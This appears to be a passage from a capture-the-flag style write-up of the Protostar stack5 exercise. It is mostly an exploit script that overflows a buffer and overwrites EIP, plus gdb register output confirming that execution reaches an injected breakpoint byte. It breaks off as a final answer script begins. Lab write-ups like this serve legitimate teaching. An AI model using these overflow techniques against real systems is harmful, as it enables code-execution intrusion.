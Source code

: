 	```
	$ cat ex.py
	import struct
	padding = "A" * 76
	eip = "\xf0\xfc\xff\xbf"
	exploit="\xCC"*1
	#exploit="C"*20
	print padding+eip+exploit
	$ python ex.py > /tmp/output
	...
	(gdb) r < /tmp/output
	Starting program: /opt/protostar/bin/stack5 < /tmp/output

	Program received signal SIGTRAP, Trace/breakpoint trap.
	0xbffffcf1 in ?? ()
	(gdb) info registers
	eax            0xbffffca0	-1073742688
	ecx            0xbffffca0	-1073742688
	edx            0xb7fd9334	-1208118476
	ebx            0xb7fd7ff4	-1208123404
	esp            0xbffffcf0	0xbffffcf0
	ebp            0x41414141	0x41414141
	esi            0x0	0
	edi            0x0	0
	eip            0xbffffcf1	0xbffffcf1
	eflags         0x200246	[ PF ZF IF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51
	(gdb) x/s $esp
	0xbffffcf0:	  <incomplete sequence \314>
	(gdb) x/s $eip
	0xbffffcf1:	 ""
	(gdb) c
	Continuing.

	Program received signal SIGSEGV, Segmentation fault.
	0xbffffcf3 in ?? ()
	```

	- So we managed to redirect code execution by overwriting the eip address to the address that esp is pointing to since that is where our overwritten code continues to overflow

	- "\xCC" is equivalent to a breakpoint and we observe that when we run the program, it will stop at 0xbffffcf1, which is 1 instruction from the address that $esp is pointing to at 0xbffffcf0. From this, we know that our "\xCC" code is being executed.

- Answer for Stack 5 (in Python)

    ```
    import struct
